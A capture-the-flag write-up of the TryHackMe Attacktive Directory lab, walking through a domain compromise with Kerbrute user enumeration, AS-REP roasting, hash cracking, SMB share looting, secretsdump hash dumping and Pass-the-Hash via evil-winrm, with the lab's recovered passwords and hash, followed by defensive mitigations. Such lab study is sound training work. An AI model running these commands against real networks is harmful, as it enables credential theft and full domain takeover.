










# TryHackMe - Attacktive Directory

## Overview

Full Active Directory attack chain against the TryHackMe Attacktive Directory room. This room covers real-world AD enumeration and exploitation techniques including AS-REP Roasting, SMB share enumeration, credential decoding, domain hash dumping, and Pass-the-Hash for Administrator access.

**Platform:** TryHackMe | **Room:** Attacktive Directory | **Difficulty:** Medium

**Attacker:** Kali Linux | **Target:** 10.67.183.59 | **Domain:** spookysec.local

**Attack Path:**

Network Enumeration → User Enumeration (Kerbrute) → AS-REP Roasting → Hash Cracking → SMB Enumeration → Credential Discovery → secretsdump → Pass-the-Hash → Administrator Shell

---

## 1. Network Enumeration

Full port scan with service detection identified the target as a Windows Active Directory domain controller running the domain `spookysec.local`.

```bash
sudo nmap -sV -sC -p- 10.67.183.59
```



Key findings:

- Port 88 - Kerberos
- Port 389/3268 - LDAP
- Port 445 - SMB (Signing Required)
- Port 3389 - RDP
- Port 5985 - WinRM
- Domain: spookysec.local
- Machine: AttacktiveDirectory.spookysec.local
- NetBIOS Domain Name: THM-AD

---

## 2. User Enumeration with Kerbrute

Kerbrute was used to enumerate valid domain accounts by testing usernames against the Kerberos service. This technique does not require credentials and does not trigger account lockouts.

```bash
kerbrute userenum --dc 10.67.183.59 -d spookysec.local userlist.txt
```



Notable accounts discovered:

- `svc-admin@spookysec.local` - service account, potential AS-REP Roasting target
- `backup@spookysec.local` - backup account with special domain replication privileges
- `administrator@spookysec.local` - built-in domain administrator

---

## 3. AS-REP Roasting

AS-REP Roasting targets accounts that do not require Kerberos pre-authentication. When this setting is enabled, the KDC will return an encrypted ticket without verifying the requester's identity. That ticket can be taken offline and cracked.

The `svc-admin` account was found to have pre-authentication disabled.

```bash
impacket-GetNPUsers spookysec.local/svc-admin -no-pass -dc-ip 10.67.183.59
```



---

## 4. Hash Cracking

The AS-REP hash was cracked offline using Hashcat with the provided password list.

```bash
hashcat -m 18200 hash.txt passwordlist.txt
```



**Result:** `svc-admin:management2005`

---

## 5. SMB Share Enumeration

Using the recovered credentials, SMB shares were enumerated on the domain controller.

```bash
smbclient -L \\\\10.67.183.59\\ -U svc-admin
```



Six shares were identified. The `backup` share stood out as non-standard and was investigated further.

---

## 6. Credential Discovery

The backup share contained a file with Base64 encoded credentials.

```bash
smbclient \\\\10.67.183.59\\backup -U svc-admin
```

After downloading and decoding the file:

```bash
echo 'YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw' | base64 -d
```



**Result:** `backup@spookysec.local:backup2517860`

The backup account has a unique permission in Active Directory that allows all domain changes to be synced to it, including password hashes. This makes it an extremely high value target.

---

## 7. Domain Hash Dumping via secretsdump

Using the backup account credentials, all NTLM password hashes were extracted from the domain controller using Impacket secretsdump via the DRSUAPI method.

```bash
impacket-secretsdump backup:backup2517860@10.67.183.59
```



**Administrator NTLM hash:** `0e0363213e37b94221497260b0bcb4fc`

---

## 8. Pass-the-Hash via Evil-WinRM

Using the Administrator NTLM hash, a remote shell was obtained via Evil-WinRM without needing the plaintext password.

```bash
evil-winrm -i 10.67.183.59 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```



Full Administrator access to the domain controller confirmed.

---

## 9. Flags Captured

All three flags retrieved from user desktops across the domain.

```powershell
type C:\Users\svc-admin\Desktop\user.txt.txt
type C:\Users\backup\Desktop\PrivEsc.txt
type C:\Users\Administrator\Desktop\root.txt
```



---

## 10. Room Completed



---

## Findings Summary

| Phase | Technique | Result |
|-------|-----------|--------|
| Network Recon | Nmap Full Port Scan | Domain controller and all AD ports identified |
| User Enumeration | Kerbrute | Valid domain accounts discovered without credentials |
| AS-REP Roasting | GetNPUsers | svc-admin ticket retrieved without password |
| Hash Cracking | Hashcat mode 18200 | svc-admin password recovered offline |
| SMB Enumeration | smbclient | Backup share with encoded credentials discovered |
| Credential Discovery | Base64 decode | backup account credentials recovered |
| Hash Dumping | secretsdump DRSUAPI | All domain NTLM hashes extracted |
| Pass-the-Hash | Evil-WinRM | Administrator shell obtained without plaintext password |

---

## Recommended Mitigations

- Disable Kerberos pre-authentication exemptions on all accounts
- Enforce strong unique passwords on all service accounts
- Restrict access to SMB shares and audit share permissions regularly
- Monitor for AS-REP Roasting and secretsdump activity in Windows Event Logs
- Limit replication privileges to only necessary accounts
- Implement LAPS to manage local administrator passwords
- Enable Protected Users security group for privileged accounts

---

## Skills Demonstrated

- Active Directory Enumeration
- User Enumeration without Credentials (Kerbrute)
- AS-REP Roasting (Impacket GetNPUsers)
- Offline Hash Cracking (Hashcat)
- SMB Enumeration and Share Access (smbclient)
- Credential Decoding (Base64)
- Domain Hash Dumping (Impacket secretsdump)
- Pass-the-Hash Attack (Evil-WinRM)
- Active Directory Full Domain Compromise